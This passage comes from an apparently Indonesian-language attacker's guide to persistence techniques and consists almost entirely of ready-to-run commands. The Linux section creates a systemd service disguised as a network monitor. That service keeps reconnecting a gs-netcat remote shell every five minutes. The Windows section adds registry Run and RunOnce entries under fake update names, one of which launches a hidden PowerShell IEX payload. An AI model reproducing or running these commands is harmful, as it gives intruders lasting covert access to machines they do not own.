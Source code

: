 ### 4. Systemd Services (Linux)

**Tujuan**: Persistence via system services

#### Create Systemd Service:
```bash
# Create service file
cat > /etc/systemd/system/network-monitor.service << EOF
[Unit]
Description=Network Connectivity Monitor
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=always
RestartSec=5
ExecStart=/usr/local/bin/network-check.sh
User=nobody
Group=nobody

[Install]
WantedBy=multi-user.target
EOF

# Create the script
cat > /usr/local/bin/network-check.sh << 'EOF'
#!/bin/bash
while true; do
    gs-netcat -c -s "secret_key" -i
    sleep 300
done
EOF

chmod +x /usr/local/bin/network-check.sh

# Enable and start service
systemctl enable network-monitor.service
systemctl start network-monitor.service
```

### 5. Registry Persistence (Windows)

**Tujuan**: Windows registry-based persistence

#### Run Keys:
```cmd
# Current user
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "SystemUpdate" /t REG_SZ /d "C:\Windows\Temp\update.exe"

# All users
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v "SecurityUpdate" /t REG_SZ /d "C:\Windows\System32\security.exe"

# RunOnce (runs once then removes itself)
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v "Setup" /t REG_SZ /d "powershell.exe -WindowStyle Hidden -Command IEX(payload)"
```
